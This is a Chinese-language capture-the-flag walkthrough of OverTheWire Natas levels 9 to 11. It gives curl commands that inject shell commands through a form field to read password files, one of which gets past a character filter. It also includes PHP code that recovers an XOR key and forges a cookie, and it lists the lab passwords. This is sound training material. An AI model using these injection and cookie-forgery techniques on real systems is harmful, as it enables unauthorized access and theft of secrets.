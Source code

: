 ### Level 9

```bash
curl -su natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl -F 'needle=;cat /etc/natas_webpass/natas10 #' -F submit=1 http://natas9.natas.labs.overthewire.org
```

### Level 10

和上一關類似，但對`needle`的值做了過濾，不允許出現`;|&`三種字符。

```bash
curl -su natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu -F 'needle=. /etc/natas_webpass/natas11 #' -F submit=1 http://natas10.natas.labs.overthewire.org
```

### Level 11

```bash
curl -Isu natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK http://natas11.natas.labs.overthewire.org
```

得到cookie：`Set-Cookie: data=ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D`。

根據`/index-source.html`：`cookie[data] xor key = tempdata`，所以`cookie[data] xor tempdata = key`。
編寫如下PHP程序運行得到`key`：`qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq`。

```php
<?php
$outText = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw');
$key = json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff"));
$in = '';
for ($i=0; $i < strlen($outText); $i++) {
	$in .= $outText[$i] ^ $key[$i % strlen($key)];
}
echo $in;
?>
```

然後對代碼做調整：

```php
<?php
$outText = '';
$in = json_encode(array("showpassword"=>"yes", "bgcolor"=>"#ffffff"));
$key = 'qw8J';
for ($i=0; $i < strlen($in); $i++) {
	$outText .= $in[$i] ^ $key[$i % strlen($key)];
}
echo base64_encode($outText);
?>
```

執行得到cookie，在`curl`裏用`-b`設置這個cookie：

```bash
curl -su natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -b data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK http://natas11.natas.labs.overthewire.org
```
